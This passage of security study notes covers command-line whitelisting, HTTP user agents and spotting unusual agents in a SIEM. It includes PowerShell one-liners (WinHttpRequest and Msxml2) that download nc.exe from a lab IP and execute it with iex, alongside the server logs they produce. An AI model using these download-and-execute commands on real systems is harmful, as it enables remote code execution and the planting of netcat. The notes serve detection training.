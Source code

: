 - Command-Line detection based on blacklisting is straightforward to bypass.
- The process of Whitelisting all command lines in a particular environment is initially time-consuming.
- Its very robust and allow for quick detection and alerting on any unusual command lines. 
### HTTP protocol & user agents
- When a client (browser, tool or script) connects to a web server, it usually identifies itself with a user agent string.
	- Example;
		- Chrome: `Mozilla/5.0 (Windows NT 10.0; Win64) AppleWebKit/.... Chrome/117.0 Safari/537.36`
		- FireFox: `Mozilla/5.0 (Windows NT 10.0; Win64; rv:118.0) Gecko/20100101 FireFox/118.0`
- ### Why important?
	- Web Servers use this to ensure compatibility 
	- But anything acting as an HTTP client can also set a user agent string, including tools like:
		- cURL
		- python request scripts
		- Pentest/red-team tools
- ### In a **SIEM** (Security Information & Event Management tool):

	- Filter out known-good agents.
	- Flag anomalies (e.g., `sqlmap/1.5.2#stable` or `python-requests/2.31`).
	- Investigate suspicious ones to see if they were used for malicious purposes.

- ## Invoke-WebRequest - Client

	- `Invoke-WebRequest http://<IP>/<file_name> -OutFile "<Destined_file_path>"`
	- `Invoke-RestMethod http://<IP>/<file_name> -OutFile "<Destined_file_path>"`
	
	- ### Invoke - WebRequest - Server:
	
		-   `GET /nc.exe HTTP/1.1User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0`

- ## WinHttpRequest - Client:
	
	- PoweShell:
		- `$h=new-object -com WinHttp.WinHttpRequest.5.1;`
		- `$h.open('GET','http://10.10.10.32/nc.exe',$false);`
		- `$h.send();`
		- `iex $h.ResponseText`
		
			- ### WinHttpRequest - Server
				`GET /nc.exe HTTP/1.1`
				`Connection: Keep-Alive`
				`Accept: */*`
				`User-Agent: Mozilla/4.0(compatible;Win32;WinHttp.WinHttpRequest.5)`

- ## Msxml2 - Client:

	- PowerShell:
		- `$h=New-Object -ComObject Msxml2.XMLHTTP;`
		- `$h.open('GET','http://10.10.10.32/nc.exe',$false);`
		- `$h.send();`
		- `iex $h.responseText`
### and so on
This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).